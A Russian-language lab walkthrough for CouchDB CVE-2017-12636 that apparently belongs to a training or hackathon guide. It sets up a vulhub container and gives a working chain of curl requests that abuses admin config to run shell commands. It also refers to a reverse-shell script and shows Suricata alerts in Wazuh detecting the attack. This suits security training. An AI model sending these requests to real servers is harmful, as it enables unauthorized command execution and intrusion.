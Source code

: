 # CVE-2017-12636

Пользователи с ролью администратора CouchDB могут настраивать сервер базы данных через HTTP(S). Некоторые параметры конфигурации включают пути к исполняемым файлам на уровне операционной системы, которые впоследствии запускаются CouchDB. Это позволяет администратору в Apache CouchDB до версии 1.7.0 и 2.x до версии 2.1.1 выполнять произвольные команды оболочки от имени пользователя CouchDB, включая загрузку и выполнение скриптов из интернета.

### Материалы:

* [https://www.opencve.io/cve/CVE-2017-12636](https://www.opencve.io/cve/CVE-2017-12636)
* [https://nvd.nist.gov/vuln/detail/CVE-2017-12636](https://nvd.nist.gov/vuln/detail/CVE-2017-12636)
* [https://docs.couchdb.org/en/stable/cve/2017-12636.html](https://docs.couchdb.org/en/stable/cve/2017-12636.html)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/couchdb/CVE-2017-12636

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Для эксплуатации уязвимости выполнения произвольных команд, используйте инструкцию к [CVE-2017-12635](../containers/couchdb/cve-2017-12635.md) для создания пользователя с ролью администратора

<figure><img src="../../.gitbook/assets/cve-2017-12636(1).png" alt=""><figcaption></figcaption></figure>

#### Эксплоит для версии 1.x

Последовательно отправьте следующие запросы, чтобы реализовать уязвимость выполнения произвольного кода

```
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/vultest/vul' -d '{"_id": "770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@ваш-ip:5984/vultest/_temp_view?limit=10' -d '{"language": "cmd", "map":""}' -H 'Content-Type: application/json'
```

Где vulhub:vulhub - это учетная запись и пароль администратора.

Первый запрос добавляет query\_servers с именем cmd и значением "id >/tmp/success" - это команда, которую мы собираемся выполнить.

Второй и третий запросы добавляют базу данных и документ, к которому можно будет обращаться только после того, как он будет добавлен.

Четвертый запрос - это выполнение запроса в этой базе данных, используется query\_servers с именем cmd, который был добавлен на первом шаге, и, наконец, выполнение команды.

Помимо эксплуатации "вручную" есть [скрипт](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py), автоматизирующий получение обратной оболочку уязвимого хоста.

Для получения шелла измените ip-адрес уязвимой машины в переменной "target" и ip-адрес и порт машины, на которую вы хотите получить обратную оболочку в переменной "command", поставьте listener на выбранный порт и запустите скрипт

<figure><img src="../../.gitbook/assets/cve-2017-12636(2).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE

<figure><img src="../../.gitbook/assets/cve-2017-12636(3).png" alt=""><figcaption></figcaption></figure>

